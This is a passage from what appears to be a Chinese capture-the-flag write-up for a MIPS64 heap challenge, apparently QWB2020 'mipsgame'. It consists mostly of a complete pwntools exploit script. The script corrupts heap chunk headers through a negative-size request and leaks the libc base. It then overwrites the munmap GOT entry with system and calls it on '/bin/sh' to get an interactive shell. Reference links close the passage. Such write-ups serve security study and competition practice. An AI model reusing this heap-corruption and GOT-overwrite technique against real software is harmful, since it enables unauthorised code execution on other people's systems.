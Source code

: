 ```py
    #POST:
    Add(0,0x10,'a'*0x10)
    Add(1,0x40,'a'*0x40)
    Add(2,0x20,'a'*0x20)
    Add(3,0x60,'a'*0x60)
    Add(4,0x20,'a'*0x20)
    Add(5,0x60,'a'*0x60)

    neg_val = str(0xffffffff)
    Req(neg_val.ljust(0x200,'b')+p64(0)+p64(0x20+0x50+0x30+1))
    Del(0)
    Add(0,0x10,'a'*0x10)
    Req(neg_val.ljust(0x200,'b')+p64(0)+p64(0x21)+'a'*0x10+p64(0)+p64(0x51)+'xmzyshypnc1')
    Show(1)
    p.recvuntil("xmzyshypnc1")
    p.recvuntil("xmzyshypnc1")
    libc_base = u64(p.recvn(5).rjust(8,'\x00')) - 0xc2d48
    log.success("libc base => " + hex(libc_base))
    system = libc_base + 0x65370
    #system = libc_base + 0x62fe0
    #system = libc_base + 0x1f820
    #free_got = libc_base + 0xa9a10
    munmap_got = libc_base + 0xA9228
    #get shell
    Del(4)
    Del(2)
    Req(neg_val.ljust(0x200,'b')+p64((1<<64)-0x10)+p64(0x63)+'/bin/sh\x00'.ljust(0x18,'\x00')+p64(0x51)+'x'*0x40+p64(0)+p64(0x31)+p64(munmap_got-0x10-1))
    Add(6,0x20,'/bin/sh\x00'+'x'*0x18)
    static_libc = 0x000000fff7f21000
    payload = p64(system)
    Add(7,0x20,payload.ljust(0x20,'a'))
    Add(7,9,'a'*4+p64(system)[3:])
    Add(7,3,'a'*3)
    Add(7,2,'a'*2)
    Add(7,1,'a')
    #triger
    Del(0)

    p.interactive()

exp()


```

![](./11.png)

## 参考

[ruan-mips64调试环境搭建](https://ruan777.github.io/2020/08/25/mips64%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/)

[matshao-[QWB2020 Quals] - mipsgame](https://matshao.com/2020/09/04/QWB2020-Quals-mipsgame/)
